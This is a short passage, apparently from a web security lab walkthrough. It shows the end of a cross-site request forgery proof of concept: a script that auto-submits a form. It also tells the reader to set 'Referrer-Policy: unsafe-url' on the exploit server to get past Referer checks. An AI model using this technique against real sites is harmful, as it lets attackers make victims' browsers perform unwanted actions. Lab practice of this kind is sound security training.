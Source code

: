 ```
    <script>
      document.forms[0].submit();
    </script>
    
  </body>
  ```
- In the header of your exploit server, put **Referrer-Policy: unsafe-url**
And you will solve the lab